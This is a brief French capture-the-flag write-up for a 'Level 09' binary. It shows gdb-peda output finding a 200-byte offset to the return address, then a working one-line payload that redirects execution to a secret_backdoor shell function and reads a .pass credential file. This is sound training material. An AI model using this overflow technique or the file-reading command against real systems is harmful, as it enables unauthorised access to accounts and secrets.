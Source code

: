 # Level 09

- On peut overflow la deuxieme entrée
- On calcule donc l'offset pour pouvoir ecrire par dessus la Return Address
- La longueur de se qui sera copier est controlé par l'un des caractere de l'username donc on y met que la plus grande valeur \xff
<pre>
gdb-peda$ pattern create 300
'AAA%AAsAABAA$AAnAACAA-AA(AADA...'
gdb-peda$ r < <(python -c "print('\xff' * 120)"; echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA...')
[----------------------------------registers-----------------------------------]
RBP: 0x417941417841415a ('ZAAxAAyA')
<strong>RSP: 0x7fffffffe4b8 ("AzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%")</strong>
RIP: 0x555555554931 (<handle_msg+113>:  ret)
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554924 <handle_msg+100>:     lea    rdi,[rip+0x295]        # 0x555555554bc0
   0x55555555492b <handle_msg+107>:     call   0x555555554730 <puts@plt>
   0x555555554930 <handle_msg+112>:     leave  
=> 0x555555554931 <handle_msg+113>:     ret    
   0x555555554932 <set_msg>:    push   rbp
   0x555555554933 <set_msg+1>:  mov    rbp,rsp
   0x555555554936 <set_msg+4>:  sub    rsp,0x410
   0x55555555493d <set_msg+11>: mov    QWORD PTR [rbp-0x408],rdi
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000555555554931 in handle\_msg ()
gdb-peda$ pattern offset AzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%
<strong>AzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A% found at offset: 200</strong>
</pre>
- On recupere l'addresse de la fonction secret_backdoor qui contien l'execution d'un "shell"
<pre>
(gdb) disass secret_backdoor 
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   %rbp
</pre>
- Il ne reste plus qu'a executé la commande qui va rediriger vers secret_backdoor
```
(python -c "print('\xff' * 120)"; python -c "import struct; print('A' * 200 + struct.pack('<q', 0x55555555488c))"; echo 'cat /home/users/end/.pass' ) | ./level09
```
